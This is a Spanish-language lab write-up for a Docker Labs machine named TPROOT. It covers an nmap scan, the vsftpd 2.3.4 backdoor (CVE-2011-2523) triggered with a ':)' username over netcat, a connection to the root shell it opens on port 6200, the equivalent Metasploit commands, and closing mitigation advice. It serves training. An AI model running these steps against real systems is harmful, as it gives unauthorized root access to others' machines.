


| Plataforma          | Docker Labs |
| ------------------- | ----------- |
| Dificultad          | Muy Fácil   |
| IP de la Máquina    | 172.17.0.2  |
| Fecha de resolución | 03/10/2026  |
# 📑 WRITEUP: TPROOT

> ℹ️ ****RESUMEN****
> - **IP Objetivo:** `172.17.0.2`
> - **Sistema Operativo:** Linux 🐧
> - **Descripción:** Laboratorio para practicar la explotación del backdoor de vsftpd 2.3.4 (CVE-2011-2523) para obtener acceso root.
> - **Privilegios Obtenidos:** `root` 👑

---

## 🎯 FASE 1: RECONOCIMIENTO Y ENUMERACIÓN

### 💻 Conectividad Inicial
Determinamos el Sistema Operativo analizando el Time To Live (TTL) mediante un paquete ICMP:
```bash
ping -c 1 172.17.0.2
```


* **Diagnóstico:** TTL = `64`. Confirmamos que nos enfrentamos a un entorno **Linux**.

### 🔍 Mapeo de Puertos y Servicios
Lanzamos un escaneo con **Nmap** para descubrir los vectores de ataque expuestos.


| Puerto   | Servicio | Versión Detectada   | Estado / Nota                      |
| :------- | :------- | :------------------ | :--------------------------------- |
| `21/TCP` | FTP      | **vsftpd 2.3.4**    | 🔴 Crítico (Vulnerable a Backdoor) |
| `80/TCP` | HTTP     | Apache httpd 2.4.58 | 🟢 Activo / Sin explotar           |

#### Comando de Nmap utilizado:
```bash
sudo nmap -p- -sS -sV --min-rate 5000 -n -Pn --open 172.17.0.2
```

---

## ⚡ FASE 2: EXPLOTACIÓN (ACCESO INICIAL)

La versión `vsftpd 2.3.4` cuenta con una vulnerabilidad histórica conocida como **CVE-2011-2523**. Al introducir un emoticón con carita feliz `:)` en el nombre de usuario, el software activa un proceso oculto que pone a escuchar una Shell interactiva en el puerto `6200`.

> 📌 **Método Utilizado (Manual)**
> 1. Forzamos la activación del exploit enviando el usuario malicioso al puerto 21:
>    ```bash
>    nc -vn 172.17.0.2 21
>    USER Gus:)
>    PASS cualquiercosa
>    ```
> 2. En una terminal secundaria, nos conectamos al puerto que se acaba de abrir de forma remota:
>    ```bash
>    nc -vn 172.17.0.2 6200
>    ```




> 💡 **Método Automatizado (Metasploit)**
> Si se prefiere automatizar con el framework, los comandos son:
> ```bash
> msfconsole -q
> use exploit/unix/ftp/vsftpd_234_backdoor
> set RHOSTS 172.17.0.2
> run
> ```

---

## 👑 FASE 3: ESCALADA DE PRIVILEGIOS

Debido a que el servicio vulnerable se estaba ejecutando con los máximos permisos en el contenedor, la terminal obtenida en el puerto `6200` nos otorga control absoluto de manera directa.

Ejecutamos el comando de verificación de identidad:
```bash
whoami
```

```bash
#Output de la terminal comprometida:
root
```



> ✅ ****MÁQUINA COMPLETADA****
> No se requirió escalada de privilegios posterior ya que el acceso inicial fue directamente como **`root`**. 
---

## 🛠️ FASE 4: RECOMENDACIONES DE MITIGACIÓN

* Actualizar vsftpd a una versión segura y soportada.
* Evitar utilizar software con versiones conocidas por contener backdoors.
* Mantener un inventario de versiones de servicios expuestos.
* Restringir la exposición de FTP cuando no sea necesario.
* Monitorizar conexiones y servicios inesperados en puertos no habituales.
* Utilizar mecanismos de autenticación y transferencia de archivos seguros cuando sea posible.
* Revisar periódicamente los servicios expuestos desde el exterior del sistema.
